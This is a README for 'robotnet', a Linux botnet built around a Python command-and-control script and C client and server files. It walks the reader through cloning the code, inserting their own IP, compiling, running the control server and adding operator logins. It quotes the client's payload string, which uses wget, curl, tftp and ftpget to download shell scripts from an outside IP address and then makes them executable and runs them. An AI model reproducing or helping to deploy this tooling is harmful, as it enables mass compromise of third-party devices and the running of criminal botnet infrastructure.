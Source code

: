 # robotnet
This is a Ubuntu botnet for OS_linux and linux

GETTING THE BOTNET 
sudo apt-get install git (this will install git )
git clone https://github.com/robotikmaniac/robotnet



dir  (This should be under robotnet)
cd robotnet
PACKAGES SHOULD INCLUDE
CC7.py    <<   python
CLIENT.C  <<   C++
server.C  <<   C++


PREP FOR BOTNET
nano client.c
(((((
skip past the includes
skip past the mozzilas
make sure you see this

char* phone[] = {":", "ogin", "sername", "assword", "Linux", "9615-cdp", (char*)0};
char *Busybox_Payload = "cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://94.177.230.28/bins.sh; curl -O 
http://94.177.230.2/bin.sh; /bin/busybox tftp 94.177.230.28 -c get tftp1.sh; chmod 777 bins.sh; sh bins.sh; tftp 94.177.230.28 -c get 
tftp -r tftp1.sh -g 94.177.230.28; chmod 777 tftp1.sh; sh tftp1.sh; ftpget -v -u anonymous -p anonymous -P 21 94.177.230.28 ftp1.sh

)))))))))))

EDIT THE IP 
 LINE 224     ===   94.177.230.28:812  (change to)  {{  "your ip":23    }}
 
 MAKE SURE WHEN YOU EDIT THE IP'S CORRECT on one of the lines theres a IP thats looks LIKE 94.177.230.2
 (make sure to take off one of the numbers ) to the ip
 
 example (IP) 192.168.1.72
 if 94.177.230.28 make it look like 192.168.1.72     
 if the ip looks like 94.177.230.2   make it look like 192.168.1.72
 
 after you have done all of that
 
 
 
 (COMPILE THE BOTNET)
 THE PACKAGES YOU WILL NEED
 
 sudo apt-get install yum               
 (MIGHT UPDATE)
 
 sudo apt-get install python3           
 (JUST DO IT IT MIGHT HAVE A NEW VERSION)
 
 sudo apt-get install python-paramiko   
 (JUST DO IT IT MIGHT HAVE A NEW VERSION)
 
 sudo apt-get install nano              
 (JUST DO IT IT MIGHT HAVE A NEW VERSION
 
 sudo apt-get install screen            
 (MOST OF LINUX OS's SO NOT HAVE SCREEN INSTALLED)
 
 sudo apt-get install gcc               
 (JUST DO IT IT MIGHT HAVE A NEW VERSION)
 
 sudo apt-get install perl              
 (NEW VERSIONS OF PERL GET REALESED MONTHLY/WEEKLY)
 
 sudo apt-get install wget              
 (JUST DO IT IT MIGHT HAVE A NEW VERSION)
 
 sudo apt-get install zip               
 (BOLTH ARE NEEDED FOR THE DOWNLOAD)
 
 sudo apt-get install zip2             
 (BOLTH ARE NEEDED FOR THE DOWNLOAD)
 
 sudo apt-get install unzip            
 (JUST DO IT IT MIGHT HAVE A NEW VERSION)
 
 THOSE ARE ALL THE PACKAGES YOU NEED AFTER THAT I DO RECOMEND DOING
 sudo apt-get update     (DO THIS)
 sudo apt-get upgrade
 sudo apt-get update     (yes i typed this again on perpose)
 
 (RUNNING THE BOTNET)
 
 gcc server.c -o server -pthread
 ignore the warnings its just telling you that its going to port fowward using telnet-RAW
 
 
 python cc7.py cc7.py client.c (PUT SERVERS IP HERE)
 THIS WILL TAKE ABOUT 10 mins to install
 
 
 
(PORT FOWWARDING THE BOTNET)
THIS MAY NOT WORK IF USING A PRIVATE IP BUT IF YOU USED A EXTERNAL IP THIS WILL WORK FINE

screen ./server 23 1 (PORT 1-9999)
IF IT SAYS OTHER SYSTEM IS USING THE IP DONT WORRY IT WILL STILL WORK
IF IT HAS A BLACK SCREEN THE BOTNET IS PORT FOWWARDING



(CONNECT TO THE BOTNET)
GO INTO PUTTY then type your (IP OF CHOICE)
SELECT A RAW CONNECTON TYPE 
THEN TYPE THE PORT YOU USED (1-9999)
if you see something that sese
robotnet (THEN YOU HAVE CONNECTED TO YOUR BOTNET)
GO BACK TO YOUR SESSION 
PRESS "CTRL C"
then add some acounts 
USERNAME MUST BE >>>root<<< NO CAPS
echo root (PASSWORD OF CHOICE) >>login.txt
(AFTER THAT YOU HAVE JUST ADDED A ACOUNT)
PORT FOWWORD YOUR BOTNET AGAIN 
THEN use
username root
password of your choice
you should be greeted to a menu with the rules of the server 




(INFO ABOUT THE BOTNET)
SCANNERS MUST BE ADDED BY YOURSELF
SERVALENCE AND PRIVACY ALSO MUST BE ADDED BY YOURSELF
I RECOMEND USING LONG PROTECTIVE PASSWORDS
